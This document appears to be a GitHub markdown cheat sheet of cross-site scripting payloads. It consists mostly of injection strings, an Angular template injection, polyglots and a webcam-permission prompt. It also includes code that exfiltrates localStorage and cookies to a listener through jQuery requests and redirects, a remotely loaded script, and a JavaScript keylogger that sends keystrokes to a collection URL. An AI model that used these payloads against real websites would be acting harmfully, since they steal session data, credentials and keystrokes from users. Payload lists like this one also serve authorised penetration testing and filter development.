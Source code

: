 # XSS
## HTML injection (without XSS)
```
<b>hacking</b>
<img src="https://cdn.pixabay.com/photo/2017/03/08/19/39/hacked-2127635__180.png"></img>
```

## Quick snippets
```
<script>alert(123)</script>
“><script>alert(document.cookie)</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<iframe onload=alert(1)></iframe>
<IMG SRC=/ onerror="alert(1)"></img>
<IMG SRC=/ onerror="alert(JSON.stringify(window.localStorage))"></img>
$.get(encodeURI("http://127.0.0.1:8000/stolen_creds?" + JSON.stringify(window.localStorage)
<iframe frameBorder="0" height="1" width="1" onload=$.getScript("http://127.0.0.1:8000/evil.js")></iframe>foo
<iframe/src=javascript:alert(1)>
<iframe/src=javascript:console.log('foo')>
<iframe/src=http://localhost:8000/evil.html>
```

# Angular JS
```
{{constructor.constructor('alert(1337)')()}}
```

# Ask for webcam permissions
```
<script>
if (navigator.mediaDevices.getUserMedia) {
  navigator.mediaDevices.getUserMedia({ video: true })
    .then(function (stream) {
      alert("Thanks for sharing your webcam with the security team!")
    })
    .catch(function (error) {
      alert("We'll get you another way!")
    });
}
</script>
```

# Emoji payload
```
"><script>alert("💻👿😀")</script>
```

# Data extraction
Cookies: `document.cookie`
Domain: `document.domain`
Localstorage: `JSON.stringify(window.localStorage)`

## Extracting from localStorage
Extracting key and subkeys
```
JSON.parse(window.localStorage.getItem('key')).subkey
```

# Data exfiltration
## Post to webhook
Requires jQuery
```
$.get(encodeURI("http://127.0.0.1:8000/stolen_creds?"+JSON.stringify(window.localStorage)))
```

## Via redirect
Simple, but the redirect could give things away (unless in an iframe)
```
window.location.href='http://localhost:8000/steal?'+myPayload
```

# Cheat sheets
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
* http://www.xss-payloads.com/payloads-list.html?a#category=all
* https://netsec.expert/posts/xss-in-2021/

# Javascript keylogger
https://github.com/JohnHoder/Javascript-Keylogger/blob/master/keylogger.js
```
var keys='';
var url = 'http://127.0.0.1:8000/keylogger?c=';

document.onkeypress = function(e) {
	get = window.event?event:e;
	key = get.keyCode?get.keyCode:get.charCode;
	key = String.fromCharCode(key);
	keys+=key;
}
window.setInterval(function(){
	if(keys.length>0) {
		new Image().src = url+keys;
		keys = '';
	}
}, 1000);
```
# XSS Polyglots
* https://chefsecure.com/courses/xss/recipes/polyglots-the-ultimate-xss-payloads
* https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

# Javascript Payload Sites
http://www.xss-payloads.com/payloads-list.html?a#category=all

# Owasp
https://owasp.org/www-community/xss-filter-evasion-cheatsheet
